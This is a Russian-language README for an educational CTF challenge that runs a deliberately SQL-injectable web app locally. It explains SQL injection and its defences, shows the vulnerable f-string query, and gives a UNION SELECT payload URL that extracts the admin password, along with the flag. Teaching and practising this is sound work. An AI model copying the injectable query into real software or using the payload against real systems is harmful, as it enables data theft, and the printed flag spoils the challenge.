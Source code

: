 # SQL Injection CTF Challenge

Этот репозиторий содержит CTF-задачу, демонстрирующую уязвимость SQL Injection (SQLi) в веб-приложении. Задача позволяет изучить, как возникает уязвимость, как её эксплуатировать и как защититься от неё.

## Описание уязвимости

### Что такое SQL Injection?
SQL Injection — это уязвимость, которая возникает, когда злоумышленник может внедрить произвольный SQL-код в запросы к базе данных. Это происходит из-за недостаточной проверки или санитизации пользовательского ввода.

### Почему возникает уязвимость?
Уязвимость возникает, когда:
1. Приложение напрямую использует пользовательский ввод в SQL-запросах.
2. Входные данные не проверяются и не экранируются.
3. Приложение не использует подготовленные выражения (prepared statements) или параметризованные запросы.

## Способы защиты от уязвимости

1. Использование подготовленных выражений (prepared statements):
Всегда используйте параметризованные запросы или подготовленные выражения. Пример для Python (с использованием `PyMySQL`):
   ```python
   cursor.execute("SELECT * FROM users WHERE username = %s AND password = %s", (username, password))
2. Валидация и санитизация входных данных: Проверяйте и очищайте все пользовательские данные перед использованием в SQL-запросах. Используйте регулярные выражения для удаления нежелательных символов.

3. Ограничение прав доступа к базе данных: Используйте учётные записи с минимальными необходимыми привилегиями.

4. Использование ORM: Используйте ORM (Object-Relational Mapping) для автоматической защиты от SQLi.

Запуск приложения
Требования
Установленный Docker и Docker Compose.

Команды для запуска
Клонируйте репозиторий:

    git clone https://github.com/nnikk777/ctf-2

Запустите докер: 

    docker-compose up --build
Откройте веб-браузер и перейдите по адресу:

    http://localhost:5000

В данном приложении уязвимость SQL Injection присутствует на странице отображения статей. Параметр article_id передаётся напрямую в SQL-запрос без какой-либо проверки или санитизации. Это позволяет злоумышленнику внедрить произвольный SQL-код.

Пример уязвимого кода:

python

    sql = f"SELECT text FROM articles WHERE id = {article_id}"
    cursor.execute(sql)
POC-эксплоит для получения флага
Шаг 1: Найдите уязвимость
Перейдите на главную страницу приложения:

    http://localhost:5000
Шаг 2: Используйте SQL Injection
Введите следующий URL для получения пароля администратора:


    http://localhost:5000/?article_id=-1 UNION SELECT 1,password,3 FROM users WHERE username='admin'-- 
Шаг 3: Получите флаг
На странице отобразится пароль администратора (флаг) в виде:


    CTF{Uni0n_S3l3ct_1s_P0wer}
Шаг 4: Используйте флаг для входа
Перейдите на страницу входа:


    http://localhost:5000/login
Введите логин admin и полученный пароль для получения флага.
